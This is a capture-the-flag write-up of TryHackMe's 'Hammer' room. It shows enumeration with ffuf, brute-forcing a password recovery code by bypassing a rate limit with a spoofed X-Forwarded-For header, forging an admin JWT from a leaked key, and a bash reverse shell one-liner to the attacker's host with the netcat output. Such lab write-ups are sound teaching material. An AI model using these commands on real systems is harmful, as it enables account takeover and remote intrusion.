 ```yaml
---
title: "TryHackMe - Hammer"
author: Nasrallah
description: ""
date: 2024-11-27 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, medium, jwt, ffuf]
img_path: /assets/img/tryhackme/hammer
image:
    path: hammer.png
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---

[Hammer](https://tryhackme.comr/r/room/hammer) from [TryHackMe](https://tryhackme.com/signup?referrer=603949780215185dfb191142) requires us to bypass an authentication on a website and gain rce. We do that by brute forcing a password recovery code to reset the password and gain access to the webapp, after that we escalate our privileges to admin by manipulating a JWT token which then enables us to access the admin's dashboard and execute code on the target machine.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 9d:0e:ad:74:e4:c2:50:52:b6:be:66:5c:5d:0f:ae:41 (RSA)
|   256 72:80:68:5e:ed:db:e4:29:c9:73:76:88:41:03:cc:08 (ECDSA)
|_  256 0e:42:88:82:fd:7e:0f:60:0c:32:a0:20:02:bf:e3:fe (ED25519)
1337/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

We found 2 open ports, 22 running OpenSSH and 1337 Running Apache web server.

### Web

Let's navigate to the website.

![loginpage](1.png)

We got a login page here, no default credentials work neither sql injection.

I check the source code and found the following.

![directory_naming_convention](2.png)

We got a naming convention of the web directories.

Let's run a directory scan.

```bash
ffuf -c -w /usr/share/wordlists/dirb/common.txt -u http://10.10.168.191:1337/hmr_FUZZ
```

```terminal

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.168.191:1337/hmr_FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

css                     [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 120ms]
images                  [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 115ms]
js                      [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 143ms]
logs                    [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 306ms]
```

We found the interesting directory `/hmr_logs`.

Navigating to that directory we find a log file leaking an email address.

![email](3.png)

We can use this email address with the reset password function.

After submitting the email we get the following page.

![recovery_code](4.png)

We need to submit a recovery code of four numbers that is sent to the email, but we can try brute forcing the code.

Let's check the request on burp.

![brup](5.png)

We make a post request to `reset_password.php` with the parameters `recovery_code` and `s`.
> s stands for the seconds left before the code gets expired.

We can also notice another interesting header on the response.

![retelimit](6.png)

There is a rate limit with a number that decreases every request, when reaching 0 we get the message `Rate limit exceeded. Please try again later.`

To bypass this rate limit we can add the `X-Forwarded-For` header.

![x-forwarded-for](7.png)

We managed to bypass the limit, not only that but we are not even required to enter an ip address, a number just works. Let's start the attack,

Let's create a list of 4 numbers.

```bash
seq 1000 9999 > nums.txt
```

Now we use craft our ffuf command.

```bash
ffuf -c -X POST -w nums.txt -u "http://10.10.168.191:1337/reset_password.php" -d "recovery_code=FUZZ&s=337" -H "Cookie: PHPSESSID=lk587499qccskudk8o7jm1k63u" -H "Content-Type: application/x-www-form-urlencoded" -H "X-Forwarded-For: FUZZ" -fr "Invalid or expired recovery code"
```

You need to make a request to `reset password` page and copy the PHPSESSID for the command above.

```terminal
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.168.191:1337/reset_password.php
 :: Wordlist         : FUZZ: /home/sirius/ctf/thm/hammer/nums.txt
 :: Header           : Cookie: PHPSESSID=lk587499qccskudk8o7jm1k63u
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : X-Forwarded-For: FUZZ
 :: Data             : recovery_code=FUZZ&s=337
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Invalid or expired recovery code
________________________________________________

7650                    [Status: 200, Size: 2191, Words: 595, Lines: 53, Duration: 175ms]

```

We got the code, now let's submit it.

![reset](8.png)

Change the password and log in to the page.

![dashboard](9.png)

## **Foothold**

On the dashboard we find a form to submit a command. Submitting `whoami` we get a `command not allowed` and after a bit we get logged off automatically.

Let's continue on burp.

![burp](10.png)

We notice a `JWT` token and a `persistentSession` cookie which is probably the one responsible for logging us off.

Let's copy the JWT token and decode it on <https://jwt.io>

![jwt](11.png)

We can see a `role` and `kid` keys that we can probably change.

Going back to the command functionality, one command that managed to give us output is `ls`.

![ls](12.png)

We found the key `188ade1.key`.

```bash
curl http://10.10.168.191:1337/188ade1.key
56058354efb3daa97ebab00fabd7a7d7
```

Now let's got back the the JWT and edit it.

![adminjtw](13.png)

Now we copy the encoded token and use it in burp.

![burp](14.png)

We managed now to execute os commands, let's get a shell.

```bash
bash -c '/bin/bash -i >& /dev/tcp/10.14.91.207/9001 0>&1'
```

```terminal
$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.14.91.207] from (UNKNOWN) [10.10.168.191] 58198
bash: cannot set terminal process group (749): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ip-10-10-168-191:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@ip-10-10-168-191:/var/www/html$
```

Here ends the room with no privilege escalation unfortunately.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

